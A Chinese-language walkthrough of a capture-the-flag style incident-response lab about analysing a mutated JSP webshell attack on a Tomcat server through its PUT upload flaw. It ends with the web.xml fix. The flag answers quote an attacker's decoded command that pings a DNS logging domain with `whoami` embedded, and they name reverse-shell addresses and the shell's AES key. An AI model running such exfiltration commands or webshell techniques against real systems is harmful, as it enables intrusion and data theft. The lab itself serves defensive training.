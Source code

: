 ```yaml
---
{"dg-publish":true,"permalink":"/应急响应靶场/玄机   某变异Webshell流量分析/","tags":["应急响应","靶场"]}
---
```



![image.png](https://s2.loli.net/2025/06/07/8QrFgBoCjwOyM1H.png)
[[思/某变异Webshell流量分析 思\|某变异Webshell流量分析 思]]
## 渗透

### 扫描
![image.png](https://s2.loli.net/2025/06/07/HzFwZaWqNpxReQk.png)

fscan 扫描发现有个 8081 的 tomcat。有可能文件任意上传漏洞


### 搜索漏洞
![image.png](https://s2.loli.net/2025/06/07/MmC3AteuUHY9gX2.png)


### 漏洞利用
![image.png](https://s2.loli.net/2025/06/07/wBfuxcEHQrah1JR.png)

利用成功
![image.png](https://s2.loli.net/2025/06/07/S3sMTG1QmnWwbly.png)


上传一个反弹 shell
![image.png](https://s2.loli.net/2025/06/07/12Q5lTyZxgfndcm.png)

## 第一问
![image.png](https://s2.loli.net/2025/06/07/x5VURNjTkGd3AOm.png)

从 wireshark 报文能看出是上传 hello. jsp

flag{hello. jsp}

## 第二问
![image.png](https://s2.loli.net/2025/06/07/85SNHURLIOeotYB.png)

查看 post 包中，能找到密码

## 分析
要对木马进行分析

木马的大致功能是通过加载字节码来执行恶意代码，整个webshell的核心部分逻辑是在字节码中。

## 第三问
在查看 put 包的攻击者上传的马，用了 base 64 解码和 gunzip。找到了秘钥
![image.png](https://s2.loli.net/2025/06/07/9cCNxF4VnZGk8QI.png)


```
oszXCfTeXHpIkMS3
```

![image.png](https://s2.loli.net/2025/06/07/CAQNBbqXeLURFjz.png)

对木马进行分析，里面还有一端加密语法，继续拉到蓝队工具箱进行

也能找到

查看木马能知道。木马是对值进行了 base 64 加密，aes 加密最后加了个 gunzip
## 第四问和第五问
找到 hello. jsp 的木马的 post 包。按照顺序依次解码
![image.png](https://s2.loli.net/2025/06/07/FKd4UZHyc21EwqG.png)

```
ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.
flag{ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.}
回显域名也在此
flag{d5454c8975.ipv6.1433.eu.org.}
d5454c8975.ipv6.1433.eu.org.
```

## 第六问
在最后一个木马的包中发现
![image.png](https://s2.loli.net/2025/06/07/O5Ea2rtJC9NmhiM.png)


应该是反链了

![image.png](https://s2.loli.net/2025/06/07/WwbthTML3qei1xv.png)

没做，就是反链
```
	flag{192.168.31.190|2024}
```

## 第七问

发现后面的流量都是 tls 的加密流量。刚好前面解密发现攻击者用了 key. log。上机提取一下

使用 pytohn 服务器传给主机
![image.png](https://s2.loli.net/2025/06/07/jykD9RlvmsceTPf.png)


![image.png](https://s2.loli.net/2025/06/07/lbERQUKDBFCWtJo.png)

跟踪 tls 流，能找到命令

![image.png](https://s2.loli.net/2025/06/07/aqTCiOvNfbGBd1A.png)

```
flag{ls}
```


## 第八问
上机排查
![image.png](https://s2.loli.net/2025/06/07/aPRcn3WlT2kKbH9.png)



发现一个文件自动删除三个文件
![image.png](https://s2.loli.net/2025/06/07/CNzbAsFiZWY78uQ.png)

我们重点检查这三个文件

![image.png](https://s2.loli.net/2025/06/07/6VWTktC5BRmlbuS.png)

云沙箱检查一下

![image.png](https://s2.loli.net/2025/06/07/uQD7at9Lmj81OZb.png)

```
flag{10.10.13.37|4444}
```

## 第九问
涉及 ctf，暂时不做

## 第十问
漏洞修复

Tomcat的 `web.xml` 中​**​默认servlet的 `readonly` 参数被显式设为 `false` ​**​时，攻击者可利用HTTP PUT方法上传恶意JSP文件并执行任意代。改成 true 就能修复

```
    <servlet>  
        <servlet-name>default</servlet-name>  
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>  
        <init-param>  
            <param-name>debug</param-name>  
            <param-value>0</param-value>  
        </init-param>  
        <init-param>  
            <param-name>listings</param-name>  
            <param-value>true</param-value>  
        </init-param>  
<init-param><param-name>readonly</param-name><param-value>true</param-value></init-param>  
        <load-on-startup>1</load-on-startup>  
    </servlet>
```
